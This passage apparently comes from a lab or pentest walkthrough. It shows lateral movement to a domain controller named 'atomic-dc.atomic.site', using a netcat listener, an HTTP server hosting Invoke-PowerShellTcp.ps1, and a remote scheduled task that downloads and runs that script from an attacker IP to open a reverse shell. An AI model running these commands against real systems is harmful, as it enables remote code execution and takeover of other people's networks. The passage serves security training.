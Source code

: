 <br/>

Then on the local machine, prepare a nc listener:

```
nc -nlvp 443
```

<br/>

Also serve the `Invoke-PowerShellTcp.ps1` script:

```
python3 -m http.server 80
```

<br/>

On the PSExec shell, create a remote schedule task:

```
schtasks /create /S atomic-dc.atomic.site /SC Weekly /RU "Administrator" /TN "STCheck" /TR "powershell.exe -c 'iex (New-Object System.Net.WebClient).DownloadString(''http://192.168.100.11/Invoke-PowerShellTcp.ps1''')'"
```

<br/>

Run the scheduled task:

```
schtasks /Run /S atomic-dc.atomic.site /TN "STCheck"
```

![picture 23](images/bf629e2a350220e7a572a694bf1c227657ab3babd7cdc7c8d5fe4dd6a3791e03.png)  
